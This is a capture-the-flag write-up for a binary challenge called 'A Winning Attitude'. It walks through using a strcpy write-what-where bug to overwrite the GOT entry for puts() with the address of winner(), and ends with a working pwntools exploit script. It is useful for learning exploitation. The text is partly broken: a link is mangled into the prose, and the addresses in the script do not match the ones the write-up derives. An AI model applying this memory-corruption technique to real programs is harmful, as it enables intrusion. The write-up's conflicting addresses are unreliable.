









# Solution Write Up for A Winning Attitude

The binary was analyzed with Python pwnlib's "checksec". This shows that “PIE is disabled”.



With PIE disabled, this provides some good news.



**Figure:** Quote from 0x00sec.org regarding PIE and GOT for ROP.

[https://0x00sec.org/t/exploit-mitigation-techniques-address-space-layout-randomization-aslr/5452](https://0x00sec.org/t/It was determined that utilizing a predictable address via GOT would be more reliable.

**Figure:** Ghidra decompile of main()

[(https://ghidra-sre.org)](https://ghidra-sre.org)

With Ghidra, the winner() function is decompiled so that it can be determined when successful exploitation has occurred. When the winner() function is called, the text file "flag.txt" is printed out.



**Figure:** Ghidra decompile of winner() function.

The program segfaults when sending 1024 chars as payload1 and payload2, so the offset needs 
to be determined. The offset for payload1 is idenfied as “20” with help from the Metasploit
pattern creator and gdb.



**Figure:** gdb showing the frame and registers at time of segfault



**Figure:** Metasploit “./pattern_create.rb” to create a pattern, then “./pattern_offset.rb” to identify the offset of the payload.

By sending payload1 as “(“A” * 20) + (“B” * 4)” plus payload2 (“C”), then using ltrace, it is obvious that we now have control over the destination memory address passed to the strcpy(\<destination\>, \<source\>) as well as the source data “C”.



**Figure:** Segfault with strcpy(0x42424242, “C”) from the payload BBBB.

Using this WWW (Write What Where) primitive an address could be overwritten in the GOT (Global offset table).

(**Reference:** How to hijack the Global Offset Table with pointers for root shells, 
https://www.exploit-db.com/raw/13203)

Now, we need to determine a function to overwrite. Using ltrace, it appears that puts() is a good candidate that executes upon completion of strcpy().


**Figure:** strcpy(), memset(), then puts()

To determine the memory address of puts(), objdump is used to dump the address of the 
dynamic relocation. The puts() address is 0x0804b040.



**Figure:** Dynamic relocations dumped to determine address of “puts” function that outputs “Yay you printed some text” at the end of the program

With a destination memory address of puts() ready to overwrite, the winner() function address is identified with GDB as 0x080489a7.



**Figure:** gdb, ‘disassemble winner’ which starts at 0x080489a7

```python
#!/usr/bin/env python3

from pwn import *
import sys, struct
import getpass

# Start the process
context.terminal = ['tmux', 'new-window']
elf = context.binary = ELF('./exe/www_net')

gs = '''
b *printf
continue
'''

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    elif args.REMOTE:
        #return remote('challenges.ctfd.io', 30461)
        return remote('localhost', 8080)
    else:
        return process(elf.path)

p = start()


if not args.REMOTE:
    # Wait for user input incase you want to attach a debugger
    log.success('Binary Executed, Press Enter to continue')
    sys.stdin.read(1)

# Print the programs message
got_entry_for_puts = 0x804c030
address_of_winner = 0x8049427
p.send(b'A' *20 + p32(got_entry_for_puts))
p.recv()
p.send(p32(address_of_winner))
print(p.recvall().decode('utf-8').split('\n')[1])
```

**Figure:** [solution.py](solution.py) prepared

Running it on the local instance of the challenge returns the flag.


